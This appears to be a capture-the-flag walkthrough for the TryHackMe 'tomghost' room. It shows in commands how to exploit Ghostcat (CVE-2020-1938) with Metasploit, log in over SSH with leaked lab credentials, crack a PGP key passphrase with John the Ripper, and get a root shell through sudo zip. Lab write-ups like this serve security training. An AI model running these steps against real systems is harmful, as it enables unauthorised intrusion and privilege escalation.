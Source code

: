 # [tomghost](https://tryhackme.com/room/tomghost)

## Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

# Flags

### Compromise this machine and obtain user.txt

1. Scan the target to identify running services

```bash
nmap -sV IP
```

[SCREEN01]

2. Exploit Ghostcat Vulnerability [CVE-2020-1938](https://www.exploit-db.com/exploits/49039)
   - The credantials are: `skyfuck:8730281lkjlkjdqlksalks`

```bash
msfconsole
search ghostcat
use auxiliary/admin/http/tomcat_ghostcat
show options
set RHOSTS TARGET_IP
run
```

[SCREEN02]

3. Use the discovered credentials to access the system via SSH. Once connected, explore the system to locate the user flag

```bash
ssh skyfuck@IP
# password: 8730281lkjlkjdqlksalks
cat /home/merlin/user.txt
```

[SCREEN03]

---

### Escalate privileges and obtain root.txt

1. Download files from `/home/skyfuck` to local machine for analysis

```bash
scp skyfuck@IP:/home/skyfuck/credential.pgp .
scp skyfuck@IP:/home/skyfuck/tryhackme.asc .
```

2. The `.asc` file is a PGP private key that's likely password-protected. We need to crack this password to decrypt the credential file.
   - Credentials are: `tryhackme:alexandru`

```bash
gpg2john tryhackme.asc > hash
john hash --wordlist=/root/Tools/wordlists/rockyou.txt
```

[SCREEN04]

3. Import the PGP key and decrypt the credential file
   - Credentials are: `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

```bash
gpg --import tryhackme.asc
# password: alexandru
gpg --decrypt credential.pgp
# password: alexandru
```

[SCREEN05]

4. Switch to the merlin user using the discovered credentials

```bash
su merlin
#Password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

5. Check what sudo privileges the merlin user has

```bash
sudo -l
```

[SCREEN06]

6. According to [GTFOBins](https://gtfobins.github.io/gtfobins/zip/), the zip utility can be exploited for privilege escalation when run with sudo privileges. Once executed, you should have a root shell, and access to the root flag

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
cat /root/root.txt
```

[SCREEN07]
